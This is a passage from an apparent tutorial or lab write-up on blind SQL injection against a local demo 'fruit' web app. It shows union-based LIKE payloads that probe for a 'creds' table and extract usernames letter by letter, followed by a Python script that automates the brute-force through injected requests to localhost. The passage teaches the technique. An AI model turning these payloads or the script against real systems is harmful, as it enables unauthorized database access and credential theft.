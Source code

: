 Next we can use the "like" operator to see if there is a creds table present in the database. We will supply a non existent fruit id so that we can use union to see if any result is produced.

<img src="/images/b2bsql/blindinjection.png" width="500">

with the query `id=12 union select table_name from information_schema.tables where table_name like 'creds%'` we see it returned "fruit found". this time we already knew that there was a table named "creds" present. In other cases we can look for table names alphabet by alphabet.

For example:

`where table_name like 'a%'`

If this returns "fruit found" we will know there was a table with name starting with "a". The "a%" will match anything after 'a'. Next we can do:

`where table_name like 'ab%'`

If this returns "No entry found" we will know that there are no table like that. This type of injection really calls for a good script to brute-force for possible table names. Not only table name but you can also brute-force for the contents of the table.

`union select user from creds where user like 'roo%'`

Here is a really simple script I cooked up:

```
import requests

alphabets=[]

first = 'a'
for i in range(0, 26):
	alphabets.append(first)
	first = chr(ord(first) + 1)

entry=''
count=0
while(count<28):
	for x in alphabets:
		r=requests.get("http://localhost/?id=12 union select user from creds where user like '{}%'".format(entry+x))
		if 'fruit' in r.text:
			entry+=x
			print(entry)
			break
		else:
			pass
			count+=1
```
